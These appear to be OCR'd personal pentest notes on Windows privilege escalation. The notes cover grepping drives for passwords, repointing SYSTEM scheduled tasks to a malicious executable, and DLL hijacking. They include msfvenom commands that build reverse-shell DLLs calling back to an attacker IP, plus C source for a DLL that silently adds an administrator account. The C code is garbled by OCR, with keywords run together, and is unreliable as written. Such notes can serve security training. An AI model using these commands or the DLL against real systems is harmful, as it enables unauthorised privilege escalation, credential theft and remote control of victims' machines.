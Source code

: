 ```
Credentials in Files
```
Select-String -Path "C:\*" -Pattern "password"
```
^powershell
```
findstr /si password *.txt *.ini *.config
```
^cmd

Scheduled Tasks
```
schtasks /query /fo LIST /v
```

```
Get-ScheduledTask | Where-Object {$_.Principal.UserId -eq "SYSTEM"}
```
- look for write permissions on a task run as SYSTEM
- modify to point at revshell
	- `schtasks /change /tn "TrustedTask" /tr "C:\Users\Public\malicious.exe"`
- trigger the task
	- `schtasks /run /tn "TrustedTask"`

DLL Hijacking
- Check writable directories in PATH:
	- `$env:PATH.Split(';') | ForEach-Object { Get-Acl $_ }`
- use procmon on another windows environment to find the name of the DLL the target application tries to load from the writable directory
	- transfer target .exe to host windows machine with smbserver.py or wormhole.app
	- launch procmon.exe from downloads\ProcessMonitor\procmon.exe
	- run target .exe
	- ctrl+E in procmon to stop monitoring
	- ctrl+L to bring up filter. Add 3 filters and hit Apply:
		- ProcessName + contains + *name of executable without .exe* > Add
		- Path + ends with + .dll > Add
		- Result + is + NAME NOT FOUND > Add
	- look for dll that sounds important. good indicator is it appears multiple times in filtered list
- on kali run `file KasperskyRemovalTool.exe` to see if 32 bit or 64 bit
	- if 32 bit, run `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.2.206 LPORT=2222 -f dll > KasperskyRemovalToolENU.dll`
	- if 64 bit, run `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.206 LPORT=2222 -f dll > KasperskyRemovalToolENU.dll`
- start listener and transfer dll to same directory of .exe file on target machine with smb server
Another method is to create malicious dll that creates a new user
- `sudo vi myDLL.cpp`
myDLL.cpp:
```
#include<stdlib.h>#include<windows.h>BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved){  
        switch(ul_reason_for_call) {  
            caseDLL_PROCESS_ATTACH:  
                inti;  
                i = system("net user rogue password123! /add");  
                i = system("net localgroup administrators rogue /add");  
                break;  
            caseDLL_THREAD_ATTACH:  
            caseDLL_THREAD_DETACH:  
            caseDLL_PROCESS_DETACH:  
                break;  
        }  
        returnTRUE;  
    }
```
```
